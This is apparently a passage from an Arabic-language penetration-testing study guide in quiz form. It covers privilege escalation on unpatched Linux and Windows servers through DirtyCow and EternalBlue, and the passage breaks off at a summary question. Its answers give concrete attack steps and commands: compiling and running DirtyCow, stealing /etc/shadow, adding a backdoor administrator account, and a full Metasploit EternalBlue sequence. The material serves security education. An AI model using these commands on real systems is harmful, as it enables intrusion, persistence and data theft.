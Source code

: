 **بتستغل DirtyCow، تصعد لـ root، وتثبت إنك تقدر تسرق بيانات الشحن أو تضيف Backdoor.**

##### 31. لو كنت بتختبر تطبيق طبي على لينكس ولقيت `3.16.0-38-generic`، إزاي تحول ده لتسريب بيانات؟ 

**بتشغل DirtyCow، تاخد root، تسرق `/etc/shadow`، وتوري إن بيانات المرضى في خطر.**

##### 32. لو سيرفر دفع أونلاين على ويندوز لقيت `6.1.7600`، إزاي تستغله كـ Pentester؟  

**بتستخدم EternalBlue في Metasploit، تاخد Shell كـ SYSTEM، وتضيف مستخدم Admin جديد.**

##### 33. تخيل إنك بتختبر موقع سفر ووصلت لـ Shell والـ Kernel قديم، إزاي تثبت خطورة الثغرة؟  

**بتشغل DirtyCow، تصعد لـ root، وتوري إنك تقدر تتحكم في بيانات الحجوزات.**

##### 34. لو كنت بتختبر منصة عقارية على ويندوز وما لقيتش تحديثات حديثة، إزاي تستفيد؟  

**بتستخدم `ms17_010_eternalblue`، تاخد SYSTEM، وتثبت إنك تقدر تسرق بيانات العقارات.**

##### 35. لو سيرفر بيع تذاكر لقيت `uname -r` بيرجع إصدار متأثر بـ DirtyCow، إزاي تثبت الضعف؟  

**بتشغل الـ Exploit، تضيف مستخدم root، تاخد Shell كامل، وتبلغ إن بيانات العملاء في خطر.**

---

# **أسئلة كتابة كود**
##### 36. اكتب أمر عشان تفحص إصدار الـ Kernel في لينكس.  
 **uname -r**

##### 37. اكتب أمر عشان تبحث عن Exploits لـ Kernel 3.16 في Searchsploit.  
  **searchsploit linux kernel 3.16**

##### 38. اكتب أوامر عشان تشغل DirtyCow بعد ما تنزله.  
  **gcc -pthread dirty.c -o dirtycow && ./dirtycow**

##### 39. اكتب أمر عشان تضيف مستخدم Admin في ويندوز بعد ما تبقى SYSTEM.  

 **net user hacker pass123 /add && net localgroup administrators hacker /add**

##### 40. اكتب أمر عشان تفتح Shell في Metasploit لـ EternalBlue.  

  **use exploit/windows/smb/ms17_010_eternalblue; set RHOSTS 192.168.1.10; set LHOST 192.168.1.100; exploit**

---

# **أسئلة الخلاصة**
##### 41. قولي الخلاصة بتاعت الجزء الأول ("إيه هو Exploiting Unpatched Privilege Escalation Vulnerabilities؟").  
